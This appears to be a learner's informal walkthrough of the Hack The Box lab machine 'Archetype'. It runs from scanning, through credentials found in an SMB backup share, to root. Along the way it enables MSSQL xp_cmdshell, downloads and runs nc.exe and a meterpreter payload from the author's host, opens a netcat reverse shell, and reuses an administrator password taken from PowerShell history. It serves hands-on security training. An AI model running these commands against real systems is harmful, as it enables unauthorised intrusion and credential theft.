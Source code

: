 # Archetype

IPv4: 10.129.95.187

## Enumeration/Scanning

- sudo nmap -sV -sC -Pn 10.129.95.187 -p-
    
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
    1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2023-08-08T00:12:20
    |_Not valid after:  2053-08-08T00:12:20
    |_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
    |_ms-sql-info: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: 2023-08-08T00:16:34+00:00; 0s from scanner time.
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb-os-discovery:
    |   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
    |   Computer name: Archetype
    |   NetBIOS computer name: ARCHETYPE\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-08-07T17:16:29-07:00
    | smb2-time:
    |   date: 2023-08-08T00:16:28
    |_  start_date: N/A
    |*clock-skew: mean: 1h45m01s, deviation: 3h30m02s, median: 0s
    | smb2-security-mode:
    |   311:
    |*    Message signing enabled but not required
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 106.20 seconds
    

smbclient -N -L [//10.129.95.187](notion://10.129.95.187/) lists a backup share

smbclient -N [//10.129.95.187/backups](notion://10.129.95.187/backups)

get prod.dtsConfig

- prod.dtsConfig
    
    <DTSConfiguration>
    <DTSConfigurationHeading>
    <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
    <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
    </DTSConfiguration>
    

password=M3g4c0rp123

ARCHETYPE\sql_svc

login to sql server

sqsh -S 10.129.95.187 -U ARCHETYPE\\sql_svc -P 'M3g4c0rp123’

SELECT name, database_id, create_date

FROM sys.databases;

SELECT*FROMINFORMATION_SCHEMA.TABLES;

from https://academy.hackthebox.com/module/116/section/1169

If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.
RECONFIGURE
GO

-- To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1
GO

-- To update the currently configured value for this feature.
RECONFIGURE
GO
```

xp_cmdshell 'whoami’ xp_cmdshell 'whoami’

great!

xp_cmdshell 'type C:\Users\sql_svc\Desktop\user.txt’

YEAH YEAH I gata get a shell….

xp_cmdshell 'copy \\10.10.16.173\Share\shell.exe C:\Users\sql_svc\Desktop\shell.exe’

“You can't access this shared folder because your organization's security policies block unauthenticated guest access”

python3 -m http.server 80

xp_cmdshell 'powershell.exe wget http://10.10.16.173/shell.exe -OutFile C:\Users\sql_svc\Desktop\shell.exe'

xp_cmdshell 'C:\Users\sql_svc\Desktop\shell.exe’

“Command shell session 1 is not valid and will be closed”

HUH

OK

well ima try nc then

/usr/share/windows-binaries

xp_cmdshell "powershell.exe wget http://10.10.16.173/nc.exe -OutFile C:\Users\Public\nc.exe"

xp_cmdshell "c:\Users\Public\nc.exe -e cmd.exe 10.10.16.173 4444”

Shell gained

powershell.exe wget http://10.10.16.173/shell.exe -OutFile shell.exe

OK I got a shell now with msfconsole IM DUMB and it was not valid earlier because I forgot to set the payload to windows/meterpreter_reverse_tcp 🙂

## Exploitation

## Privilege Escalation

running suggester on the session

nothing

checking powershell history

type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

\\Archetype\backups /user:administrator MEGACORP_4dm1n!!

ruby evil-winrm.rb -i 10.129.95.187 -u administrator -p 'MEGACORP_4dm1n!!’

rooted

## Post-exploitation

None
